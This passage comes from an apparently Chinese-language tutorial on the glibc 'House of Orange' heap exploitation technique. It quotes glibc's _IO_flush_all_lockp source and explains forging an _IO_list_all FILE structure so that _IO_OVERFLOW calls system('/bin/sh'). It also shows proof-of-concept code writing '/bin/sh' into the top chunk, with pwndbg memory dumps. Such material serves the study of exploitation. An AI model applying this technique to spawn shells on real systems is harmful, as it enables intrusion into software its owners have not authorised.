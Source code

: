 ``` c
      run_fp = NULL;

      if (last_stamp != _IO_list_all_stamp)
    {
      /* Something was added to the list.  Start all over again.  */
      fp = (_IO_FILE *) _IO_list_all;
      last_stamp = _IO_list_all_stamp;
    }
      else
    fp = fp->_chain;    // 指向我们指定的区域
    }

#ifdef _IO_MTSAFE_IO
  if (do_lock)
    _IO_lock_unlock (list_all_lock);
  __libc_cleanup_region_end (0);
#endif

  return result;
}
```

> _IO_list_all 是一个 _IO_FILE_plus 类型的对象，我们的目的就是将 _IO_list_all 指针改写为一个伪造的指针，它的 _IO_OVERFLOW 指向 system，并且前 8 字节被设置为 '/bin/sh'，所以对 _IO_OVERFLOW(fp, EOF) 的调用最终会变成对 system('/bin/sh') 的调用。

``` c
    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      最后，我们用指向这个文件指针的指针调用 system 函数
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
      如果我们将前 8 个字节填充为 /bin.sh，它等价于调用 system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);
```

于是 old top chunk 被修改为：

```
pwndbg> x/10gx top
0x602400:	0x0068732f6e69622f	0x0000000000000be1
0x602410:	0x00007ffff7dd1b78	0x00007ffff7dd2510
0x602420:	0x0000000000000000	0x0000000000000000
0x602430:	0x0000000000000000	0x0000000000000000
0x602440:	0x0000000000000000	0x0000000000000000
pwndbg> x/2s top 
0x602400:	"/bin/sh"
0x602408:	"\341\v"
```

``` c
    /*
      The function _IO_flush_all_lockp iterates through the file pointer linked-list
      in _IO_list_all.
      _IO_flush_all_lockp 函数会遍历 _IO_list_all 中的文件指针 linked-list
      Since we can only overwrite this address with main_arena's unsorted-bin-list,
      the idea is to get control over the memory at the corresponding fd-ptr.
      由于我们只能使用 main_arena 中的 unsorted-bin-list 覆盖这个地址，因此我们的想法时控制相应的 fd-ptr 的内存。
      The address of the next file pointer is located at base_address+0x68.
      下一个文件指针的位置在 base_address + 0x68 处。
      This corresponds to smallbin-4, which holds all the smallbins of
      sizes between 90 and 98. For further information about the libc's bin organisation
      see: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
      这一块对应于 smallbin - 4，它包含所有大小在 90 到 98 之间的 smallbins。

      Since we overflow the old top chunk, we also control it's size field.
```